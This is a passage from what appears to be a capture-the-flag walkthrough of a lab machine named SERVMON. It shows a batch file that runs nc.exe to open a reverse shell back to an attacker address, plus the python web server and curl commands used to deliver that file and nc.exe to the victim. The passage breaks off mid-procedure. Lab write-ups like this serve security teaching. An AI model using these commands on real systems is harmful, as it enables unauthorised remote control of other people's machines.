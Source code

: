 ![](img/2022-06-17-00-31-58.png)

The next step is to upload `nc.exe` and `reverse.bat` to the target:
```shell
# Attacker Machine
❯ nvim Exploits/reverse.bat
❯ cat Exploits/reverse.bat
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/reverse.bat
       │ Size: 53 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ @echo off
   2   │ C:\temp\nc.exe 10.10.14.17 3333 -e cmd.exe
───────┴───────────────────────────────────────────────────────────────────────────
❯ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
# Victims machine
nadine@SERVMON C:\temp>curl http://10.10.14.17:4444/nc.exe --output nc.exe
nadine@SERVMON C:\temp>curl http://10.10.14.17:4444/Exploits/reverse.bat --output reverse.bat
```

Next, we need to add the script to the external scripts:
